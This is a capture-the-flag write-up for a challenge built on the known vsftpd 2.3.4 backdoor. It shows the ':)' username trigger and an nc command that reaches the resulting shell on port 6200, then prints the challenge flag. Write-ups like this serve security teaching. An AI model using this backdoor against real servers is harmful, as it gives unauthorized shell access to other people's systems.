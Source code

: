 #  Very Secure FTP  
tags: misc | net

## Description

>I'm using the very secure ftp daemon for my projects:  
`ftp vsftp.uni.hctf.fun 2121`  
Still someone managed to get my secret file :(.  
Maybe [this](https://pastebin.com/AetT9sS5) has something to do with it...

The link takes to a pastebin that contains a diff of *vsftpd-2.3.4*.

## Solution

The version 2.3.4 of vsftpd is well known for being compromised with a
backdoor.  
  
From wikipedia:  
>In July 2011, it was discovered that vsftpd version 2.3.4 downloadable from
the master site had been compromised. Users logging into a compromised
vsftpd-2.3.4 server may issue a ":)" smileyface as the username and gain a
command shell on port 6200.

So I just needed to connect to the service with `ftp vsftp.uni.hctf.fun 2121`
and enter an username ending with "**:)**".

I could then execute: `nc vsftp.uni.hctf.fun 6200` to connect to the new shell
and check the content of the server:

```  
 ls  
 bin  
 flag.txt

 cat flag.txt  
 flag{Pr3tty_Obvi0us_B4ckd00r}  
```

Here it is!  

Original writeup
(https://github.com/draane/CTF/tree/master/PWN_CTF_2018/Very%20Secure%20FTP).
